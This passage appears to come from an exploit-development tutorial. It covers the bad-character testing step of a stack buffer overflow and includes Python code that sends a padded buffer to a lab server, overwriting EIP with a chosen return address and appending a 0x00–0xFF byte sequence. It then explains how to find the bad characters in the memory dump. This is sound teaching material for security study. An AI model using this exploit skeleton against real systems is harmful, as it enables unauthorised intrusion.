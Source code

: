 ### Testing for Bad Characters

Update the exploit to ensure it sends that string of bad characters as the payload:

```python
import socket, sys

# connect to a socket on a vulnerable server
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("192.168.99.3", 10000))

# send A's
buf = b"A"*268

# overwrite EIP with string RETN
buf += b"\x1b\xbd\x98\x77"
# 7798BD1B

# bad character testing payload
buf += b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

# send payload
sock.send(buf)
sock.close()
```

...test the exploit against the target and investigate the memory dump of the memory location pointed to by the EIP after the crash:

![Testing for bad characters. A string of characters from 0x00-0xFF as a payload](<../../../.gitbook/assets/image (824).png>)

Note the memory dump in blue - it contains our string for testing bad characters that we sent to the vulnerable program as our payload. Since we can see all the bytes ranging from 0x00 through to 0xFF in the correct order with no bytes missing or mangled, this confirms that we did not have to deal with any bad characters with this vulnerable program.

If we, however, spotted that a character, say, `0x0A` was replaced with some random character, say, `0xE3`, this would indicate that `0x0A` is a bad character:

![0xa0 is identified as a bad character](<../../../.gitbook/assets/image (816).png>)

Once a bad character is identified:&#x20;

* In the exploit code, replace that bad character with a known good character - any character going before it, that did not get modified by the vulnerable program. In my case, that could be any byte from 0x01 to 0x09. I chose 0x09 as shown in green in the above screenshot... or you could simply remove the bad character from the string for testing bad characters;
* Fire the exploit against the target again;
* Inspect the memory dump again to see if there are any other bad characters;
* Repeat the process until all bad characters are identified.

